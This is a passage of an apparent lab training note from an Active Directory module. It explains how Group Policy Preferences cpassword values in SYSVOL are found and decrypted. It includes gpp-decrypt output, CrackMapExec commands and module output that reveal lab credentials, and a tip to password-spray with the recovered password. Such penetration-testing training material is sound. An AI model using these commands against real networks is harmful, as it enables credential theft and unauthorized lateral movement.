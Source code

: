 ```shell
Set objWMIService = GetObject("winmgmts:\\" & strComputer & "\root\cimv2")
```

## Group Policy Preferences (GPP) Passwords
When a new GPP is created, an .xml file is created in the SYSVOL share, which is also cached locally on endpoints that the Group Policy applies to. These files can include those used to:

- Map drives (drives.xml)
- Create local users
- Create printer config files (printers.xml)
- Creating and updating services (services.xml)
- Creating scheduled tasks (scheduledtasks.xml)
- Changing local admin passwords.

The `cpassword` attribute value is AES-256 bit encrypted, but Microsoft [published the AES private key on MSDN](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN), which can be used to decrypt the password. Any domain user can read these files as they are stored on the SYSVOL share, and all authenticated users in a domain, by default, have read access to this domain controller share.


If you retrieve the cpassword value more manually, the `gpp-decrypt` utility can be used to decrypt the password as follows:

```bash
AhmaDb0x@htb[/htb]$ gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE

Password1
```



GPP passwords can be located by searching or manually browsing the SYSVOL share or using tools such as [Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1), the GPP Metasploit Post Module, and other Python/Ruby scripts which will locate the GPP and return the decrypted cpassword value. CrackMapExec also has two modules for locating and retrieving GPP passwords. One quick tip to consider during engagements: Often, GPP passwords are defined for legacy accounts, and you may therefore retrieve and decrypt the password for a locked or deleted account. However, it is worth attempting to password spray internally with this password (especially if it is unique). Password re-use is widespread, and the GPP password combined with password spraying could result in further access.


#### Locating & Retrieving GPP Passwords with CrackMapExec
```shell-session
AhmaDb0x@htb[/htb]$ crackmapexec smb -L | grep gpp
```
#### Using CrackMapExec's gpp_autologin Module
```shell-session
AhmaDb0x@htb[/htb]$ crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```
```shell-session
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Usernames: ['guarddesk']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Domains: ['INLANEFREIGHT.LOCAL']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Passwords: ['ILFreightguardadmin!']
```
 find passwords in files such as Registry.xml when autologon is configured via Group Policy

---